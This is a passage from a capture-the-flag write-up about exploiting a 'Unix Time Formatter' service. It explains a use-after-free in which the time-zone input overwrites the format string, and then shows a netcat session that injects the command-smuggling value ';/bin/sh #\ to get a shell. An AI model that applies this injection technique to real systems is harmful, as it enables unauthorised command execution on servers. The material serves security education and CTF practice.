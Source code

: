 ```
Time zone: UTC
strdup(0x7ffcd354c5f8) = 0x1d36420
Time zone set.
```

There it is, we now have our format field pointing at `0x1d36420` but thanks to use-after-free we just wrote to that address with the TZ input. Time to pop a shell on the server.

## Pwning

```
$ nc unix.pwning.xxx 9999
Welcome to Mary's Unix Time Formatter!
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 1
Format: %c
Format set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 3
Time zone: ';/bin/sh #\
Time zone set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 5
Are you sure you want to exit (y/N)?
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 5
Are you sure you want to exit (y/N)?
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 3
Time zone: ';/bin/sh #\
Time zone set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 3
Time zone: ';/bin/sh #\
Time zone set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
```